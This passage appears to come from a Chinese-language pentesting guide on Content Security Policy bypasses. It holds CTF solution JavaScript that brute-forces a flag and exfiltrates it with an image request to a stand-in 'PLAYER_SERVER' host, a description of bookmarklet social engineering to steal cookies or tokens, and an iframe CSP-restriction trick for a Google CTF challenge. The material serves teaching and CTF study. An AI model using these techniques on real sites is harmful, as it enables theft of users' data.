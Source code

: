 ```html
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
let prefix = 'nn9ed{';
while (true) {
let i = 0;
for (i;i<alphabet.length;i++) {
let c = alphabet[i];
let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
console.log(prefix, c, t);
if (t) {
console.log('FOUND!')
prefix += c;
break;
}
}
if (i==alphabet.length) {
console.log('missing chars');
break;
}
let t = await query(prefix+'}', true);
if (t) {
prefix += '}';
break;
}
}
new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
console.log(prefix);
}

run();
</script>
```
### 通过书签小程序

此攻击将涉及一些社会工程学，攻击者**说服用户将链接拖放到浏览器的书签小程序上**。此书签小程序将包含**恶意的javascript**代码，当被拖放或点击时，将在当前网页窗口的上下文中执行，**绕过CSP并允许窃取敏感信息**，如cookies或tokens。

有关更多信息，请[**查看原始报告**](https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/)。

### 通过限制CSP绕过CSP

在[**这个CTF写作**](https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution)中，CSP通过在允许的iframe内注入更严格的CSP来绕过，该CSP不允许加载特定的JS文件，然后通过**原型污染**或**DOM覆盖**允许**滥用不同的脚本来加载任意脚本**。

您可以使用**`csp`**属性**限制iframe的CSP**：

{% code overflow="wrap" %}
```html
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```
{% endcode %}
